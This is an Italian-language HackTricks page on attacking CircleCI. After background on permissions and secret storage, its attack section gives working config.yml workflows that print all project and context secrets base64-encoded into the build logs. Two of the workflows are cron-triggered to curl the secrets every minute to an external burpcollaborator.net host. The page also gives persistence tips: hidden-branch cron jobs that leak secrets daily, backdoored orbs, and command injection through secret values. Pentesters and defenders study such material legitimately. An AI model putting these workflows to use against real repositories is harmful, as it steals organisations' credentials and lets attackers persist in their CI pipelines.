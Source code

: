 # Sicurezza di CircleCI

<details>

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Informazioni di Base

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) è una piattaforma di Integrazione Continua dove puoi **definire modelli** indicando cosa desideri che faccia con del codice e quando farlo. In questo modo puoi **automatizzare i test** o **le distribuzioni** direttamente **dalla branch master del tuo repository**, ad esempio.

## Autorizzazioni

**CircleCI** **eredita le autorizzazioni** da github e bitbucket relative all'**account** che effettua l'accesso.\
Nelle mie prove ho verificato che finché hai **autorizzazioni di scrittura sul repository su github**, sarai in grado di **gestire le impostazioni del progetto in CircleCI** (impostare nuove chiavi ssh, ottenere chiavi api del progetto, creare nuove branch con nuove configurazioni di CircleCI...).

Tuttavia, è necessario essere un **amministratore del repository** per **convertire il repository in un progetto CircleCI**.

## Variabili d'Ambiente e Segreti

Secondo [**la documentazione**](https://circleci.com/docs/2.0/env-vars/) ci sono diversi modi per **caricare valori nelle variabili d'ambiente** all'interno di un flusso di lavoro.

### Variabili d'ambiente integrate

Ogni contenitore eseguito da CircleCI avrà sempre [**specifiche variabili d'ambiente definite nella documentazione**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) come `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` o `CIRCLE_USERNAME`.

### Testo in chiaro

Puoi dichiararle in chiaro all'interno di un **comando**:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Puoi dichiararli in chiaro all'interno dell'**ambiente di esecuzione**:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Puoi dichiararli in chiaro all'interno dell'ambiente del **build-job**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Puoi dichiararli in chiaro all'interno dell'**ambiente di un contenitore**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Segreti del Progetto

Questi sono **segreti** che saranno accessibili solo dal **progetto** (da **qualsiasi branch**).\
Puoi vederli dichiarati in _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
La funzionalità "**Importa Variabili**" consente di **importare variabili da altri progetti** in questo.
{% endhint %}

### Segreti di Contesto

Questi sono segreti che riguardano **tutta l'organizzazione**. Per **default qualsiasi repository** sarà in grado di **accedere a qualsiasi segreto** memorizzato qui:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Tuttavia, nota che un diverso gruppo (anziché Tutti i membri) può essere **selezionato per dare accesso ai segreti solo a persone specifiche**.\
Attualmente, questo è uno dei modi migliori per **aumentare la sicurezza dei segreti**, per non permettere a tutti di accedervi ma solo a alcune persone.
{% endhint %}

## Attacchi

### Ricerca di Segreti in Testo Chiaro

Se hai **accesso al VCS** (come github) controlla il file `.circleci/config.yml` di **ogni repository su ogni branch** e **cerca** potenziali **segreti in testo chiaro** memorizzati lì.

### Enumerazione di Variabili d'Ambiente Segrete e Contesto

Controllando il codice puoi trovare **tutti i nomi dei segreti** che vengono **utilizzati** in ogni file `.circleci/config.yml`. Puoi anche ottenere i **nomi dei contesti** da quei file o controllarli nella console web: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### Esfiltrare i Segreti del Progetto

{% hint style="warning" %}
Per **esfiltrare TUTTI** i segreti del progetto e del contesto, è sufficiente avere accesso **SCRITTURA** a **solo 1 repository** nell'intera organizzazione di github (_e il tuo account deve avere accesso ai contesti ma per default tutti possono accedere a ogni contesto_).
{% endhint %}

{% hint style="danger" %}
La funzionalità "**Importa Variabili**" consente di **importare variabili da altri progetti** in questo. Pertanto, un attaccante potrebbe **importare tutte le variabili del progetto da tutti i repository** e poi **esfiltrarle tutte insieme**.
{% endhint %}

Tutti i segreti del progetto sono sempre impostati nell'env dei job, quindi chiamare env e oscurarlo in base64 esfiltrerà i segreti nella **console di log web dei workflow**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Se non hai accesso alla **console web** ma hai accesso al **repository** e sai che viene utilizzato CircleCI, puoi semplicemente **creare un workflow** che viene **attivato ogni minuto** e che **esfila le segreti verso un indirizzo esterno**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Estrarre i Segreti del Contesto

È necessario **specificare il nome del contesto** (questo permetterà anche di estrarre i segreti del progetto):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Se non hai accesso alla **console web** ma hai accesso al **repository** e sai che viene utilizzato CircleCI, puoi semplicemente **modificare un workflow** che viene **attivato ogni minuto** e che **esfila le segreti verso un indirizzo esterno**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Creare un nuovo file `.circleci/config.yml` in un repository **non è sufficiente per avviare una build su CircleCI**. È necessario **abilitarlo come progetto nella console di CircleCI**.
{% endhint %}

### Fuga verso il Cloud

**CircleCI** ti offre la possibilità di eseguire **le tue build sulle loro macchine o sulle tue**.\
Di default, le loro macchine si trovano in GCP, e inizialmente potresti non trovare nulla di rilevante. Tuttavia, se una vittima sta eseguendo i task **sulle proprie macchine (potenzialmente, in un ambiente cloud)**, potresti trovare un **endpoint dei metadati cloud con informazioni interessanti al suo interno**.

Nota che negli esempi precedenti è stato lanciato tutto all'interno di un contenitore Docker, ma puoi anche **chiedere di avviare una macchina virtuale** (che potrebbe avere autorizzazioni cloud diverse):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
Oppure anche un contenitore Docker con accesso a un servizio Docker remoto:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Persistenza

* È possibile **creare token utente in CircleCI** per accedere ai punti API con l'accesso degli utenti.
* _https://app.circleci.com/settings/user/tokens_
* È possibile **creare token di progetto** per accedere al progetto con i permessi dati al token.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* È possibile **aggiungere chiavi SSH** ai progetti.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* È possibile **creare un lavoro cron in un branch nascosto** in un progetto inaspettato che sta **leakando** tutte le **variabili di ambiente del contesto** ogni giorno.
* Oppure creare in un branch / modificare un lavoro conosciuto che **leakerà** tutti i contesti e i **segreti dei progetti** ogni giorno.
* Se sei un proprietario di GitHub puoi **consentire orb non verificati** e configurarne uno in un lavoro come **backdoor**
* Puoi trovare una **vulnerabilità di injection di comandi** in qualche attività e **iniettare comandi** tramite un **segreto** modificandone il valore

<details>

{% hint style="success" %}
Impara e pratica l'Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
